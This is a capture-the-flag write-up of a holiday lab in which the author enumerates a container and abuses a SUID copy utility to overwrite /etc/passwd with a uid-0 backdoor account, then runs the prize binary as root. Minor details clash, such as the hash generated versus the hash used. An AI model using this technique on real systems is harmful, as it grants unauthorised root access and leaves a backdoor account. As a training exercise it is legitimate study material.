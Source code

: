 # Linux PrivEsc

```
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Begin navigating our environment to get a better situational awareness.

```console
elf@8229518634e7:~$ id
uid=1000(elf) gid=1000(elf) groups=1000(elf)
elf@8229518634e7:~$ hostname
8229518634e7
elf@8229518634e7:~$ pwd
/home/elf
elf@8229518634e7:~$ ls -al
total 28
drwxr-xr-x 1 elf  elf  4096 Dec  2 22:17 .
drwxr-xr-x 1 root root 4096 Dec  2 22:16 ..
-rw-r--r-- 1 elf  elf   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 elf  elf  3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 elf  elf   807 Feb 25  2020 .profile
-rw-r--r-- 1 root root  628 Nov 27 17:07 HELP
elf@8229518634e7:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
```

One of the first commands I always run is `sudo -l`.

```console
elf@8229518634e7:~$ sudo -l
bash: sudo: command not found
```

Next, I check for any running system processes of interest.

```console
elf@8229518634e7:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
elf            1  0.0  0.0   4116  3488 pts/0    Ss   19:28   0:00 /bin/bash
elf           24  0.0  0.0   5900  2836 pts/0    R+   19:33   0:00 ps aux
```

Check for upgradeable components.

```console
elf@8229518634e7:~$ apt list --upgradeable
Listing... Done
```

Find all writable directories.

```console
elf@8229518634e7:~$ find / -writable -type d 2>/dev/null
/tmp
/var/tmp
/home/elf
/dev/shm
/dev/mqueue
/proc/29/task/29/fd
/proc/29/fd
/proc/29/map_files
/run/lock
```

Check what Cron jobs are running.

```console
elf@8229518634e7:~$ ls -alh /etc/cron*
/etc/cron.d:
total 12K
drwxr-xr-x 2 root root 4.0K Nov 28 02:06 .
drwxr-xr-x 1 root root 4.0K Dec 31 19:28 ..
-rw-r--r-- 1 root root  201 Feb 14  2020 e2scrub_all

/etc/cron.daily:
total 16K
drwxr-xr-x 2 root root 4.0K Nov 28 02:06 .
drwxr-xr-x 1 root root 4.0K Dec 31 19:28 ..
-rwxr-xr-x 1 root root 1.5K Apr  9  2020 apt-compat
-rwxr-xr-x 1 root root 1.2K Sep  5  2019 dpkg
```

Check for any sensitive information hardcoded as environment variables.

```console
elf@8229518634e7:~$ env
HOSTNAME=8229518634e7
RESOURCE_ID=5967a20b-5b82-411d-a9fc-c9d07c84b88d
PWD=/home/elf
HOME=/home/elf
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
HHCUSERNAME=Humming5607
AREA=imtostrichsaloon
TERM=xterm
TOKENS=
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LOCATION=7,8
_=/usr/bin/env
```

Check for any SUID or SGID-marked binaries.

```console
elf@8229518634e7:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
elf@8229518634e7:~$ find / -perm -g=s -type f 2>/dev/null
/usr/bin/expiry
/usr/bin/wall
/usr/bin/chage
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd
```

The binary `/usr/bin/simplecopy` stands out to me. Check its `--help` menu.

```console
elf@8229518634e7:~$ simplecopy --help
Usage: simplecopy <source> <destination>
```

The utility seems to copy an item to a destination. If we can overwrite files, then we may be able to escalate privileges by overwriting the contents of `/etc/passwd`. Validate that we can overwrite files by creating two test files and using the `simplecopy` utility on them.

```console
elf@8229518634e7:~$ echo 'test 1' > test1.txt
elf@8229518634e7:~$ echo 'test 2' > test2.txt
elf@8229518634e7:~$ simplecopy test2.txt test1.txt 
elf@8229518634e7:~$ cat test1.txt 
test 2
```

The overwrite seems to work. Back on kali, use the `openssl` utility to generate a MD5 hash, which is a supported hash algorithm by `/etc/passwd`. If this were a real engagement, we should use a strong password, since creating a backdoor account with a very weak password would introduce another critical vulnerability to the system. For this challenge however, I generated a hash for the password *yougotpwnedithappens*.

```console
kali@kali:~$ mkpasswd -m descrypt
Password: 
ECORIxCVacJMw
```

Back on the target machine, create a copy of `/etc/passwd`, append the new line to `/etc/passwd` that adds a new superuser with our generated password, and overwrite the contents of `/etc/passwd`.

```console
elf@85bdf04c4d99:~$ cat /etc/passwd > /tmp/passwd.bak
elf@85bdf04c4d99:~$ echo "root2:PHSm1daAPUIcg:0:0:root:/root:/bin/bash" > /tmp/fakepasswd
elf@85bdf04c4d99:~$ simplecopy /tmp/fakepasswd /etc/passwd
elf@85bdf04c4d99:~$ su root2
Password: 
root2@85bdf04c4d99:/home/elf# id
uid=0(root2) gid=0(root) groups=0(root)
```

We are now running in a shell as *root*. Move to the directory `/root` and run the binary to complete the lab.

```console
root2@85bdf04c4d99:/home/elf# cd /root
root2@85bdf04c4d99:~# ls -al
total 620
drwx------ 1 root2 root   4096 Dec 31 20:58 .
drwxr-xr-x 1 root2 root   4096 Dec 31 20:05 ..
-rw------- 1 root2 root      5 Dec 31 20:58 .bash_history
-rw-r--r-- 1 root2 root   3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root2 root    161 Dec  5  2019 .profile
-rws------ 1 root2 root 612560 Nov  9 21:29 runmetoanswer
root2@85bdf04c4d99:~# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

